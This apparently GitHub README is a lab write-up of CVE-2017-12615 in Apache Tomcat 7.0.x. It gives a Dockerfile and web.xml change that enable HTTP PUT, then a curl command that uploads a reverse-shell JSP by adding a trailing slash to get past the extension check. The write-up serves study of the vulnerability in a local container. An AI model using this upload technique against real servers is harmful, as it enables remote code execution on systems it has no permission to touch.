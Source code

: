 # CVE-2017-12615

## PS
- Bug Overview: When running Apache Tomcat 7.0.0 to 7.0.79 on Windows with HTTP PUTs enabled (e.g. via setting the read-only initialisation parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server. That could lead to remote code execution on the server.
- Aim: Write a working exploit for this CVE by which you can achieve RCE on local VM/Docker.
- Install vulnerable service in a VM/Docker and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.


## Description
As a security measure, Apache Tomcat doesn't let you upload JSP files via the PUT method. But due to insufficient checks, an attacker can upload JSP files on 7.0.0 to 7.0.79 Tomcat servers that have PUT method enabled and as a result get remote code execution.


## Environment
We replicated the environment for this vulnerability in a docker container using the following Dockerfile. This will use tomcat 7.0.79, replace the web.xml file with our modified file and start the service on port 8080.
```
FROM tomcat:7.0.79-jre8
COPY web.xml /usr/local/tomcat/conf/
EXPOSE 8080
```

We added the following code in web.xml to enable the PUT method.
```xml
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```


## Exploit
We can bypass the file extension check by appending a '/' character after the file's extension. We used the following curl command to upload a JSP file on the server.

```bash
curl -X PUT http://localhost:8080/reverse_shell.jsp/ -d @- < reverse_shell.jsp
```

After uploading the JSP file, we can go to `http://localhost:8080/reverse_shell.jsp` and directly execute commands on the server.
